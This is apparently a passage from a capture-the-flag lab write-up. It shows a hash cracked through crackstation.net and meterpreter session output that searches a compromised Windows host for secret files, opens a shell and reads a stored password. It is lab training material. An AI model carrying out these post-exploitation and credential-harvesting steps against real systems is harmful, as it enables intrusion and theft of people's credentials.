 *What is the cleartext password of the jchambers user?*

`69596c7aa1e8daee17f8e78870e25a5c` > crackstation.net

---

*Where is the "secrets.txt"  file located? (Full path of the file)*

```bash
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 03:44:27 -0400
```

---

*What is the Twitter password revealed in the "secrets.txt" file?*

```bash
meterpreter > shell
Process 2008 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
<navigate using cd>

:\Program Files (x86)\Windows Multimedia Platform>type secrets.txt
type secrets.txt
My Twitter password is [REDACTED]
```

---

*Where is the "realsecret.txt" file located? (Full path of the file)*

```bash
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 04:30:24 -0400

meterpreter > Interrupt: use the 'exit' command to quit
```

---

*What is the real secret?*
